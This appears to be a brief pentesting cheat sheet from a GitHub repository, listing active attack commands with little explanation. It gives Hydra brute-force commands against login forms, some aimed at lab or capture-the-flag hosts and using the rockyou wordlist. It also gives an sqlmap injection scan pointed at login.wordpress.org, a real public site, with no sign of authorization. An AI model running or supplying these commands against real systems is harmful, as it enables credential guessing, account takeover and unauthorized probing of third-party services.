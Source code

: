 # Active-Sanning
This is a list of tools that will help with attack but may show alerts on IDS as you are sending many requests.

## Brute Force 
May result in IP ban if too many requests are made.
### Hydra
Used to brute force users on websites
```bash
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.118.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Username or passwordis incorrect" -t 35
hydra -L "users.txt" -P "/usr/share/wordlists/rockyou.txt" api-prod.horizontall.htb http-post-form "/admin/auth/login:{\"identifier\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Identifier or password invalid." -t 50
```
## SQL
### SQLmap
```bash
	sqlmap -u https://login.wordpress.org --forms
```
